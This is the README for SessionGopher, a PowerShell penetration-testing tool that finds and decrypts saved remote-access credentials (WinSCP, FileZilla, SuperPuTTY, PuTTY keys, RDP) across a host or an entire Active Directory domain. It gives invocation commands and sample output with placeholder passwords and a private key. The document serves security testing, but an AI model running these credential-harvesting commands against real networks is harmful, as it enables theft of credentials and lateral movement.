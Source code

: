 Copyright 2017 FireEye, created by Brandon Arvanaghi ([@arvanaghi](https://twitter.com/arvanaghi "Arvanaghi's Twitter"))

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

    http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.

# SessionGopher
## Quietly digging up saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP

SessionGopher is a PowerShell tool that finds and decrypts saved session information for remote access tools. It has WMI functionality built in so it can be run remotely.
Its best use case is to identify systems that may connect to Unix systems, jump boxes, or point-of-sale terminals.

SessionGopher works by querying the `HKEY_USERS` hive for all users who have logged onto a domain-joined box at some point. It extracts PuTTY, WinSCP, SuperPuTTY, FileZilla, RDP, and VNC saved session information. It automatically extracts and decrypts WinSCP, FileZilla, and SuperPuTTY saved passwords.
When run in Thorough mode, it also searches all drives for PuTTY private key files (.ppk) and extracts all relevant private key information, including the key itself, as well as for Remote Desktop (.rdp) and RSA (.sdtid) files.

## Usage
**-Thorough**: searches all drives for PuTTY private key (.ppk), Remote Desktop Connecton (.rdp), and RSA (.sdtid) files. 

**-o**: outputs the data to a folder of .csv files

**-iL**: provide a file with a list of hosts to run SessionGopher against, each host separated by a newline. Provide the path to the file after `-iL`.

**-AllDomain**: SessionGopher will query Active Directory for all domain-joined systems and run against all of them.

**-Target**: a specific host you want to target. Provide the target host after `-Target`.

### To run locally
```
. .\SessionGopher.ps1
Invoke-SessionGopher -Thorough
```

### To run remotely (-iL, -AllDomain, -Target)
To run remotely, you can either provide a privileged account's credentials for the remote system using the `-u` and `-p` flags. If you omit the `-u` and `-p` flags, 
SessionGopher will run under the security context of the account from which you run the script (e.g. if you are already logged in as DA account, or logged in as an account that
is local admin for the target system, or doing a _runas_ with either of the two, you won't need to supply credentials).

```
. .\SessionGopher.ps1
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```
or
```
. .\SessionGopher.ps1
Invoke-SessionGopher -iL computerlist.txt -u domain.com\adm-arvanaghi -p s3cr3tP@ss -o
```
or 
```
. .\SessionGopher.ps1
Invoke-SessionGopher -Target brandonArvanaghi_win7 -Thorough
```

Any of these commands can be coupled with `-Thorough`, but note that it takes significantly longer as it queries the entire remote filesystem. It is not recommended you run in `-Thorough` mode when querying
more than a small set of systems at a time. 

Running remotely by adding `-o` (print to CSV) works nicely, as SessionGopher will accumulate all sessions it finds and tell you exactly where it found that saved session. 

### To write to CSV (whether remote or local)
To have SessionGopher create a folder to neatly contain .csvs of the extracted sessions:
```
. .\SessionGopher.ps1
Invoke-SessionGopher -AllDomain -o
```
... that's it. 

Accessing the saved session information for every user in `HKEY_USERS` requires local admin privileges. Without local admin privileges, you will still receive saved session
information for that user.

### Sample output (-Thorough):

```
[+] Digging on Win7-Arvanaghi ...
 WinSCP Sessions

Session  : admin-anthony@198.273.212.334
Hostname : 198.273.212.334
Username : admin-anthony
Password : Super*p@ssw0rd

Session  : Freddy@204.332.455.213
Hostname : 204.332.455.213
Username : Freddy
Password : angelico1892

FileZilla Sessions

Name     : BarrySite
Password : imr34llytheFl@sh
Host     : 10.8.30.21
User     : BarryAllen
Protocol : Use FTP over TLS if available
Account  : BarryAllenAccount
Port     : 22

PuTTY Sessions

Session  : PointOfSaleTerminal
Hostname : 10.8.0.10

PuTTY Private Key Files (.ppk)

Path                   : C:\Users\Brandon Arvanaghi\Documents\mykey.ppk
Protocol               : ssh-rsa
Comment                : rsa-key-20170116
Private Key Encryption : none
Private Key            : {AAABAEazxtDz6E9mDeONOmz07sG/n1eS1pjKI8fOCuuLnQC58LeCTlysOmZ1/iC4, g4HyRpmdKJGhIxj66/RQ135hVesyk02StleepK4+Tnvz3zmdr4Do5W99qKkrWI3D, T9GOxOIoR9Zc6j57D+fdesJq4ItEIxcQZlXC1F9KZcbXjSJ3iBmCsbG/aRJmMJNx, 
                         nCMaZkySr4R4Z/E+l1JOzXaHh5WQ2P0K4YM1/6XG6C4VzDjvXwcY67MYsobTeCR2...}
Private MAC            : b7e47819fee39a95eb374a97f939c3c868f880de


Microsoft Remote Desktop (RDP) Sessions

Hostname : us.greatsite.com
Username : Domain\tester 

Microsoft Remote Desktop .rdp Files

Path                    : C:\Users\Brandon Arvanaghi\Desktop\config\PenTestLab-Win.RDP
Hostname                : dc01.corp.hackerplaypen.com
Gateway                 : rds01.corp.hackerplaypen.com
Prompts for Credentials : No
Administrative Session  : Does not connect to admin session on remote host

```

---

Written by Brandon Arvanaghi ([@arvanaghi](https://twitter.com/arvanaghi "Arvanaghi's Twitter"))

